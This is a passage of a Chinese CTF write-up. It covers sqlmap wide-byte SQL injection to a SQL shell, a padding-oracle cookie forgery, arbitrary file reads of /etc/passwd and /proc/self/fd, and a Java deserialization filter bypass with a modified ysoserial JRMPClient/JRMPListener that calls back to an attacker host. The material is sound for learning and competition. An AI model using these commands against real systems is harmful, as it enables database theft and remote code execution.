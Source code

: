 ```
python2 sqlmap.py -u "http://117.51.147.2/Ze02pQYLf5gGNyMn/query_aIeMu0FUoVrW0NWPHbN6z4xh.php?id=1" --tamper unmagicquotes --hex --sql-shell
sql-shell> select ctf_value from ctfdb.ctf_fhmHRPL5;
```
常规操作，注库名，表名，字段名（TCL）做的时候想的太复杂了，但是我的sqlmap最后这里不能直接--dump，所以我执行了--sql-shell自定义sql命令最终拿的flag  
sqlmap宽字节注入自带的tamper是`unmagicquotes`  
这里因为过滤了单引号，所以我们需要用--hex参数将字符串转为0x开头的16进制数字避开引号  
![](https://xzfile.aliyuncs.com/media/upload/picture/20190419111259-094dde36-6251-1.png)

### 再来1杯Java
作者：**5am3**  
p.s.压轴题哈，说实话，这题真的学会了不少东西。毕竟自己太菜了，虽然本科专业为java开发狗。但我真的不太熟啊...  
一共分为三关吧。  
+ 首先是一个PadOracle攻击，伪造cookie。这个解密Cookie可以看到hint： PadOracle:iv/cbc。  
+ 第二关，读文件，看到后端代码后，才发现，这里贼坑。  
+ 第三关，反序列化。  

首先第一关好说，其实在/api/account_info这个接口，就可以拿到返回的明文信息。然后通过Padding Oracle + cbc翻转来伪造cookie即可。在这里就不多说了。网上很多资料。
最后拿到cookie，直接浏览器写入cookie就OK。然后可以获取到一个下载文件的接口。
>/api/fileDownload?fileName=1.txt

虽然说是一个任意文件读取的接口，但是贼坑、  
一顿操作猛如虎，最后只读出/etc/passwd...  

搜到了[很多字典](https://github.com/tdifg/payloads/blob/master/lfi.txt)。然后burp爆破一波，最后发现/proc/self/fd/15这里有东西，看到熟悉的pk头，情不自禁的笑了起来。（对，就是源码）  
![](https://xzfile.aliyuncs.com/media/upload/picture/20190419014936-54f65eac-6202-1.png)  
源码也不多，很容易，可以看到一个反序列化的接口。  
![](https://xzfile.aliyuncs.com/media/upload/picture/20190419014936-5527d2de-6202-1.png)  
在反序列化之前，还调用了SerialKiller，作为一个waf，对常见payload进行拦截。  
首先题目给了hint：JRMP。根据这个hint，我们可以找到很多资料。在这里自己用的ysoserial，根据他的JRMP模块来进行下一步操作。  
在这里，JRMP主要起了一个绕过waf的功能，因为这个waf只在反序列化userinfo时进行了调用。当通过JRMP来读取payload进行反序列化时，不会走waf。  
首先，JRMP这个payload被waf掉了，我们可以采用先知上的一种绕过方式。  
>https://xz.aliyun.com/t/2479

![](https://xzfile.aliyuncs.com/media/upload/picture/20190419014937-5555b226-6202-1.png)  
直接修改ysoserial源码即可，将原有的JRMPClient的payload复制一份，改名为JRMPClient2，然后保存并编译。  
此时我们可以尝试使用URLDNS模块，来判断是否攻击成功。  
修改替换{{内容}}  
开启监听端口  
建议采用ceye的dnslog查看  
`java -cp ./ysoserial-5am3.jar ysoserial.exploit.JRMPListener {{port}} URLDNS {{http://eval.com}}`  
生成链接JRMPListener的payload  
ip端口那里填写运行第4行脚本的主机地址端口  
`java -jar ./ysoserial-5am3.jar JRMPClient2 {{10.0.0.1:8119}} | base64`  
此时将第10行生成的代码，直接打到远程即可。  
然后查看dnslog信息。发现存在，那就是ok了。  
接下来可以尝试换payload了。此时这里还存在一个问题。服务器端无法执行命令！！  
这个是hint中给的，所以我们需要找另一种方式，如：代码执行。  
查阅资料，发现ysoserial预留了这块的接口，修改即可。  
>https://blog.csdn.net/fnmsd/article/details/79534877
